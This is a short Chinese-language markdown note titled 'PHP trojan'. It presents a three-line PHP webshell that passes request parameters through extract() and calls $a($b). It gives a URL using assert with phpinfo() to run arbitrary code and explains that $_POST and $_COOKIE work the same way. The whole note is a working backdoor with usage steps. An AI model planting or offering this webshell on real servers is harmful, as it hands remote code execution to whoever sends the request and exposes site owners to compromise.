

# php木马

在服务端写一个`test.php`脚本: 
``` php
<?php
    extract($_GET);
    $a($b);
    ?>
```

在浏览器打开`localhost/test.php?a=assert&b=phpinfo()`链接, 即可执行代码.

解释:

`extract`函数是将Hash的项作为变量和值释放到本地作用域中. 即当`extract($_GET)`时, `$_GET`为`{a=assert, b=phpinfo}`, 经过提取后在本地作用域生成`a=assert`, `b=phpinfo()`的两个变量, 并进行赋值. 再进行函数调用`$a($b)`.

因为`extract`针对数组, 因此`extract($_POST)`和`extract($_COOKIE)`也行. 不同的只是提交数据的方式不同而已.

